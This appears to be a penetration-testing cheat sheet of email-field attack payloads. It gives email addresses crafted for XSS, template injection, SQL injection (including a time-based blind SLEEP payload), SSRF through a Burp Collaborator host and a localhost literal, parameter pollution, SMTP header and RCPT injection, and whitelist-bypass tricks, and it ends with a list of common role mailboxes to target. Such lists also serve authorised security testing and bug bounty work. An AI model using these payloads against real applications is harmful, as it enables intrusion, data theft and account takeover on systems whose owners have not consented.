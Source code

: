 # Email attacks

<table>
  <thead>
    <tr>
      <th style="text-align:left">Attack</th>
      <th style="text-align:left">Payload</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">XSS</td>
      <td style="text-align:left">
        <p>test+(alert(0))@example.com</p>
        <p>test@example(alert(0)).com</p>
        <p>&quot;alert(0)&quot;@example.com</p>
        <p>&lt;script src=//xsshere?&#x201D;@email.com</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Template injection</td>
      <td style="text-align:left">
        <p>&quot;&lt;%= 7 * 7 %&gt;&quot;@example.com</p>
        <p>test+(${{7*7}})@example.com</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">SQLi</td>
      <td style="text-align:left">
        <p>&quot;&apos; OR 1=1 -- &apos;&quot;@example.com</p>
        <p>&quot;mail&apos;); SELECT version();--&quot;@example.com</p>
        <p>a&apos;-IF(LENGTH(database())=9,SLEEP(7),0)or&apos;1&apos;=&apos;1\&quot;@a.com</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">SSRF</td>
      <td style="text-align:left">
        <p>john.doe@abc123.burpcollaborator.net</p>
        <p>john.doe@[127.0.0.1]</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Parameter Pollution</td>
      <td style="text-align:left">victim&amp;email=attacker@example.com</td>
    </tr>
    <tr>
      <td style="text-align:left">(Email) Header Injection</td>
      <td style="text-align:left">
        <p>&quot;%0d%0aContent-Length:%200%0d%0a%0d%0a&quot;@example.com</p>
        <p>&quot;recipient@test.com&gt;\r\nRCPT TO:&lt;victim+&quot;@test.com</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Wildcard abuse</td>
      <td style="text-align:left">%@example.com</td>
    </tr>
  </tbody>
</table>

```text
# Bypass whitelist
inti(;inti@inti.io;)@whitelisted.com
inti@inti.io(@whitelisted.com)
inti+(@whitelisted.com;)@inti.io

#HTML Injection in Gmail
inti.de.ceukelaire+(<b>bold<u>underline<s>strike<br/>newline<strong>strong<sup>sup<sub>sub)@gmail.com

# Bypass strict validators
# Login with SSO & integrations
GitHub & Salesforce allow xss in email, create account and abuse with login integration

# Common email accounts
support@
jira@
print@
feedback@
asana@
slack@
hello@
bug(s)@
upload@
service@
it@
test@
help@
tickets@
tweet@
```

